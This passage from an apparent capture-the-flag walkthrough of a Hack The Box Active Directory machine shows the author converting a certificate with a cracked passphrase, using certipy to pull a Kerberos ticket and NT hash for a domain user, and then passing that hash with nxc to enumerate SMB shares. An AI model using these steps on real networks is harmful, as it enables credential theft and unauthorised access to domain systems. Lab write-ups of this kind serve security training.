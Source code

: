 ```bash
openssl pkcs12 -export -out baker.pfx -inkey baker.key -in baker.crt

Enter pass phrase for baker.key:
Enter Export Password:
Verifying - Enter Export Password:
```
<div style="
  background-color: #0d1117;
  border: 1px solid #1f6feb;
  border-radius: 6px;
  padding: 16px;
  color: #c9d1d9;
  margin: 1.5em 0;
  font-family: system-ui, sans-serif;
">
  <p style="margin: 0 0 1em; font-weight: 600; color: #58a6ff;">
    <span style="margin-right: 6px;">ℹ️</span>Note
  </p>
  <p style="margin: 0 0 1em;">The passphrase is the password that we cracked with john, but for the Export Password we just need to press Enter, without any password.</p>

  <pre style="
    background-color: #161b22;
    padding: 12px;
    border-radius: 6px;
    overflow-x: auto;
    margin: 0;
  "><code style="color: #c9d1d9;">openssl pkcs12 -in cert.pfx -nocerts -out priv-key.pem</code></pre>
</div>

Now we can retrieve **baker hash**

```bash
➜ rdate -n 10.129.28.117

➜ certipy auth -pfx baker.pfx -dc-ip 10.129.28.117

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: d.baker@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'd.baker.ccache'
[*] Trying to retrieve NT hash for 'd.baker'
[*] Got hash for 'd.baker@scepter.htb': aad3b435b51404eeaad3b435b51404ee:18...ce
```
### ESC9 to PSRemote on the machine

Nice, now let's enumerate :

```bash
➜ nxc smb scepter.htb -u 'd.baker' -H '18...ce'
SMB         10.129.28.117   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.28.117   445    DC01             [+] scepter.htb\d.baker:18...ce

➜ nxc smb scepter.htb -u 'd.baker' -H '18...ce' --shares
SMB         10.129.28.117   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.28.117   445    DC01             [+] scepter.htb\d.baker:18...ce
SMB         10.129.28.117   445    DC01             [*] Enumerated shares
SMB         10.129.28.117   445    DC01             Share           Permissions     Remark
SMB         10.129.28.117   445    DC01             -----           -----------     ------
SMB         10.129.28.117   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.28.117   445    DC01             C$                              Default share
```